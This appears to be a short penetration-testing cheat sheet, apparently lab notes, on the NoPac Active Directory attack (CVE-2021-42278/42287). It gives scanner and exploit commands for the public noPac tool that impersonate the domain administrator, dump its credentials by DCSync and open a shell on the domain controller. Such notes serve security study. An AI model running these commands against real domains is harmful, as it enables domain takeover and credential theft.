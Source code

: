 ```yaml
---
layout: app
title: "Active Directory"
tags: ["NoPac"]

---
```


# NoPac

## CVE's

* CVE-2021-42278: Bypass vulnerability with the Security Account Manager (SAM).
* CVE-2021-42287: Vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.

[noPac Tool](https://github.com/Ridter/noPac)


### scan
```bash
python scanner.py crtp.local/username:password -dc-ip 192.168.85.100 -use-ldap
```

### Exploit

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip [address]  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```

> We will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm

### Using noPac to DCSync the Built-in Administrator Account

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip IPAddress  -dc-host HOST-NAME --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```
